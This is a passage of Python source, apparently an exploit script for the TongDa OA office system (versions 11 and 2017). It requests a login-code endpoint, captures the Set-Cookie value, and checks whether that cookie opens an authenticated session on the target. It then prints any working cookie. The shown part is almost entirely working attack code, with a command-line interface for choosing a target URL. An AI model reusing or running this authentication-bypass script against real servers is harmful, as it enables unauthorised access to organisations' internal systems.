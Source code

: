 ```python
            res = requests.get(getCodeUidUrl)
            tmp_cookie = res.headers['Set-Cookie']
            headers["User-Agent"] = choice(USER_AGENTS)
            headers["Cookie"] = tmp_cookie
            check_available = requests.get(url + '/general/index.php',headers=headers)
            if '用户未登录' not in check_available.text:
                if '重新登录' not in check_available.text:
                    print('[+]Get Available COOKIE:' + tmp_cookie)
            else:
                print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
        else:
            print('[-]Something Wrong With '+url  + ' Maybe Not Vulnerable ?')
    except:
        print('[-]Something Wrong With '+url)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "-v",
        "--tdoaversion",
        type=int,
        choices=[11, 2017],
        help="Target TongDa OA Version. e.g: -v 11、-v 2017")
    parser.add_argument(
        "-url",
        "--targeturl",
        type=str,
        help="Target URL. e.g: -url 192.168.2.1、-url http://192.168.2.1"
    )
    args = parser.parse_args()
    url = args.targeturl
    if 'http://' not in url:
        url = 'http://' + url
    if args.tdoaversion == 11:
        getV11Session(url)
    elif args.tdoaversion == 2017:
        get2017Session(url)
    else:
        parser.print_help()
```
